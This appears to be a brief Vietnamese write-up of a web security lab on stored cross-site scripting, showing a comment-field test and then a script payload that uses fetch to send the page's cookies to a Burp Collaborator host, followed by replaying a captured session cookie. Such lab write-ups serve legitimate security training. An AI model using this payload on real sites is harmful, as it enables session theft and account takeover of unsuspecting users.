


## Exploiting cross-site scripting to steal cookies

1. Thử gửi nội dung bình luận là: ``<script>alert(1)</script>`` nhận thấy pop-up hiện lên. Từ đó có thể khai thác xss

2. Gửi payload js sử dụng hàm fetch sau để khi load trang comment sẽ gửi một request chứa cookie đến endpoint mà ta có thể kiếm soát.
- Payload:
```<script>fetch("g7o1ukx0xq8e2zpyg4dgr2p980eq2f.burpcollaborator.net/?"+document.cookie);</script>```

3. Trong burp collaborator nhận được các request từ target gửi đến có chứa cookie mà ta cần.



-> Nhận được 1 cookie `session=9BOeK147eGLaYOoEYjw8Ido5w8oSyQ4l`

4. Gửi lại request vào trang my-account với cookie mới lấy được

